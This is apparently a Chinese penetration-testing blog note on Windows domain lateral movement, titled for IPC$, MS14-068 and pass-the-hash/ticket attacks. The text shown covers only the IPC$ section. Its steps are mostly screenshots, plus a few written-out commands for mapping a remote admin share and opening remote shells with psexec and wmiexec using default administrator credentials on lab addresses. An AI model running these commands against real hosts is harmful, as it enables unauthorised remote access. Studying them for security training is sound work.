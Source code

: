 ```yaml
---
title: "IPC MS14068 Pth Ptt Ptk Kerberoating"
date: 2019-08-07T17:48:55+08:00
lastmod: 2019-08-07T17:48:55+08:00
draft: false
tags: [域渗透]
categories: [内网渗透]
comment: true
---
```

IPC MS14068 Pth Ptt Ptk Kerberoating


# IPC 
## IPC$入侵
- 建立非空连接
![](https://ae01.alicdn.com/kf/H7de99dac099e4694966204a93871c634o.jpg)

- 新建批处理
 ![](https://ae01.alicdn.com/kf/H6daf7be4713d4b5c9171df8d753fbf6eK.jpg)
 
- Copy命令上传
![](https://ae01.alicdn.com/kf/Heb36bd75a778479584c35b41049f54438.jpg)

- 查看目标靶机时间
![](https://ae01.alicdn.com/kf/Haec412d7ef12423b9163b8592fd2e8fcS.jpg)

- 通过at命令在特定时间执行批处理文件
![](https://ae01.alicdn.com/kf/Hc8924d6008ba497ebe4318670297d786v.jpg)

- 在目标靶机上查看
![](https://ae01.alicdn.com/kf/H8cc8f0e34be1490dada5fe6f28dbe9b0D.jpg)

## 其他命令
- 将目标共享建立一个映射g盘
`net use g: \\192.168.3.68\c$`
![](https://ae01.alicdn.com/kf/H8cc8f0e34be1490dada5fe6f28dbe9b0D.jpg)

- 查看已建立的会话
![](https://ae01.alicdn.com/kf/H01d751f3dd924bffab1af18d1105e807t.jpg)

### 通过工具进行会话连接执行
```
psexec.exe  \\192.168.1.108   cmd  -uadministrator   -p  123456
```
```
csript.exe  wmiexec.vbs   /shell   192.168.1.108   administrator   123456
```
**返回一个cmd交互界面执行即可**
